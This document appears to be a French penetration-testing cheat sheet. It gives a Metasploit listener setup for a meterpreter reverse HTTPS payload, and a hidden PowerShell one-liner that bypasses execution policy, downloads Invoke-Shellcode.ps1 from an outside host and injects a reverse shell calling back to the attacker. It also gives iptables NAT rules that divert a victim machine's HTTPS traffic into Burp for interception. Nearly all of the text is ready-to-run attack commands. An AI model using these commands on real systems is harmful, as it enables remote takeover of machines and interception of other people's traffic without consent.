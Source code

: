 Lancer un listener metasploit qui enverra un meterpreter qui fera un callback HTTPS :

``` text
cd /opt/metasploit/
sudo app/msfconsole

use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_https
set LHOST xxx.xxx.xxx.xxx (ip accessible depuis internet)
set LPORT 443
exploit -j -z
```

On peut ensuite voir les `sessions` et les `jobs`.

``` bash
powershell -nop -windowstyle hidden -NonInteractive -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/code_execution/Invoke-Shellcode.ps1');invoke-shellcode -Payload windows/meterpreter/reverse_https -Lhost xxx.xxx.xxx.xxx -Lport 8080
```

## How To - proxy transparent avec burp

La victime est une VM en mode "host only" mais ça serait pareil avec une machine sur un wifi ou un réseau cablé.

L'idée est de rajouter des règles de NAT pour rediriger uniquement le trafic voulu vers notre burp.

* Configurer Burp pour qu'il écoute en mode transparent (voir [ici](http://portswigger.net/burp/help/proxy_options_invisible.html)) pour comprendre pourquoi), pour cela il suffit de cocher la case "invisible" dans l'option du listener
* autoriser l'IP forward

``` bash
sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
```

* rajouter des règles de firewall

```bash
linuxInterne='192.168.56.1'
linuxExterne='10.35.12.131'
victime='192.168.56.101'
siteWeb='217.108.170.54'
# au cas où
sudo iptables -P FORWARD ACCEPT
# flush la table de nat
sudo iptables -t nat -F
# source NAT de tout le reste pour que ça puisse revenir
sudo iptables -t nat -A POSTROUTING -s $victime -j SNAT --to-source $linuxExterne
# redirection des connexions vers $site_web:443 vers notre burp local
sudo iptables -t nat -A PREROUTING -s $victime -d $siteWeb -p tcp --dport 443 -j DNAT --to-destination $linuxInterne:8080
```
